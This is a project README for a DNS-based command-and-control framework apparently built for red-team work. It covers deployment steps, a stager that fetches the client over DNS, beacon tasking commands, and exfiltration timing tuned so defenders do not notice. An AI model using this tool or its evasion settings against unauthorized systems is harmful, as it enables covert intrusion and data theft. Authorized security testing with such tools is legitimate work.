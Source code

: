 # 🕵️ Unkn0wnC2

DNS-based Command & Control framework operating as an authoritative DNS server with encrypted C2 communications.


This DNS C2 implementation's strengths comes from it's malleable C2 timing. 

Many C2s can utilize DNS for covert communications, but the exfil/task timings aren't usually adjustable without changing code directly. This C2 allows you to change the timing of exfil during the build process. Keeping your exfil slow is key to staying stealthy as common C2s send outputs/exfil quickly, alerting Blue Teams on large ammounts of DNS traffic in a short period of time.

![Unkn0wnC2](assets/unkn0wnc2.png)

---

## ⚠️ Legal Disclaimer

**FOR AUTHORIZED SECURITY TESTING ONLY**

This software is provided for educational and authorized security testing purposes only. Users must:

- Obtain explicit written authorization before deployment
- Comply with all applicable local, state, and federal laws
- Use only in controlled environments with proper authorization
- Understand that unauthorized access to computer systems is illegal

**The authors and contributors are not responsible for misuse or illegal activity. Use at your own risk.**

---

## 🚀 Quick Deployment

### 1. 🌐 Domain Setup
Configure NS records at registrar:
```
ns1.yourdomain.net  →  YOUR_SERVER_IP
ns2.yourdomain.net  →  YOUR_SERVER_IP
```
Add glue records at registrar, verify: `dig @8.8.8.8 NS yourdomain.net`

### 2. 🔨 Build
```bash
# Generate unique encryption key
openssl rand -base64 32

# Edit build_config.json - set encryption_key, domain, server IPs
vim build_config.json

# Build all components with production configuration
bash build_production.sh
```

Output will be in `build/production/`

### 3. 🖥️ Deploy Server
```bash
# Copy to target server
scp build/production/dns-server-linux user@server:/opt/unkn0wnc2/
cd /opt/unkn0wnc2

# Run (requires root for port 53, config embedded at build time)
sudo ./dns-server-linux
```

### 4. 📡 Deploy Client
**Option A - Direct:** `./dns-client-linux`  
**Option B - Stager:** `./stager-linux-x64` (downloads client via DNS)

**Production:** Change encryption key, disable debug mode, use system DNS (stealth)

---

## 🏗️ Protocol Architecture

### Communication Flow
![Communications Flow](assets/communication_flow.png)

### 🔐 Encoding Pipeline

![Encoding Pipeline](assets/encoding_pipeline.png)

### 📨 Message Format

![Message Format](assets/message_format.png)

### 🎭 Authoritative DNS Server Logic Flow

![Authoritative DNS Server Logic Flow](assets/logic_flow.png)

### Malleable Timing (stager / client / exfil)

This project exposes several timing parameters that are intentionally malleable to tune stealth vs throughput. Defaults are set in build_config.json and in the Stager build defaults.

Key parameters and defaults (units):

- Stager
  - jitter_min_ms = 1000 (1.0 s)
  - jitter_max_ms = 2000 (2.0 s)
  - chunks_per_burst = 5
  - burst_pause_ms = 12000 (12 s)
  - retry_delay_seconds = 3
  - max_retries = 5

- Client check-in
  - sleep_min = 60 (60 s)
  - sleep_max = 120 (120 s)

- Client exfil
  - exfil_jitter_min_ms = 10000 (10 s)
  - exfil_jitter_max_ms = 30000 (30 s)
  - exfil_chunks_per_burst = 5
  - exfil_burst_pause_ms = 120000 (120 s)

How the pieces interact (approximate calculations):
- Number of bursts for N chunks: bursts = ceil(N / chunks_per_burst)
- Average jitter (ms) = (jitter_min_ms + jitter_max_ms) / 2
- Stager total time ≈ N * RTT_seconds_per_chunk + bursts * ((avg_jitter_ms + burst_pause_ms) / 1000)
  - Example (stager defaults, 100 chunks): avg_jitter = 1.5 s, burst pause = 12 s → per-burst pause ≈ 13.5 s
    - bursts = 20 → pause_time ≈ 270 s
    - transfer_time ≈ 100 s → total ≈ 370 s (~6 min 10 s)

- Exfil (client) will be significantly slower with larger jitter/pause values:
  - Example (exfil defaults, 100 chunks): avg_jitter = 20 s, burst pause = 120 s → per-burst pause ≈ 140 s
    - bursts = 20 → pause_time ≈ 2800 s (~46 min 40 s)
    - transfer_time ≈ 100 s → total ≈ 2900 s (~48 min 20 s)

### Build Output
```
build/
├── dns-server-linux
├── dns-client-linux
├── dns-client-windows.exe
├── deployment_info.json
├── stager-linux-x64
└── stager-windows-x64.exe
```

---

## 🎮 C2 Console Commands

```
beacons              List all active beacons
task <id> <cmd>      Queue command for beacon
tasks                Show all tasks and status
result <task_id>     Display task output
logs                 Show log message count
status               Server status summary
clear                Clear console
exit                 Shutdown server
```

**Example Session:**
```bash
c2> beacons
ID    Hostname    Username    OS       Last Seen
a1b2  target-01   admin       Linux    2s ago

c2> task a1b2 whoami
[+] Task T1001 queued for beacon a1b2

c2> tasks
ID     Beacon  Command  Status     Created
T1001  a1b2    whoami   completed  5s ago

c2> result T1001
admin
```

---

**Version:** 0.1.0  
**License:** Use for authorized security testing only  

---


